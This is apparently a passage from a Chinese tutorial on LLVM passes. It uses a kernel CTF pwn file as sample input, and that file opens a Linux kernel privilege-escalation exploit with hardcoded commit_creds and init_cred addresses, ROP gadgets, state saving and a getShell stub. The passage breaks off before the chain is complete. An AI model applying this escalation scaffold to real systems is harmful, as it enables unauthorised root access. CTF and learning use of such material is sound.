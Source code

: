 ```cpp
```

上面就是LLVM pass的C++代码了。我们需要一个C语言文件，这个文件中的内容无关紧要，这里用笔者做kernel pwn题中的一个文件为例：

firstLLVMtest.c:
```c
//
// Created by root on 22-7-7.
//
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <sys/mman.h>

const size_t commit_creds = 0xFFFFFFFF810C92E0;
const size_t init_cred = 0xFFFFFFFF82A6B700;
const size_t swapgs_restore_regs_and_return_to_usermode = 0xFFFFFFFF81C00FB0 + 0x1B;
const size_t ret = 0xFFFFFFFF810001FC;
const size_t poprdi_ret = 0xffffffff8108c6f0;
const size_t poprsp_ret = 0xffffffff811483d0;
const size_t add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
long page_size;
size_t* map_spray[16000];
size_t guess;
int dev;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status();
void print_binary(char*, int);
void info_log(char*);
void error_log(char*);
void getShell();
void makeROP(size_t*);

void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    info_log("Status has been saved.");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
```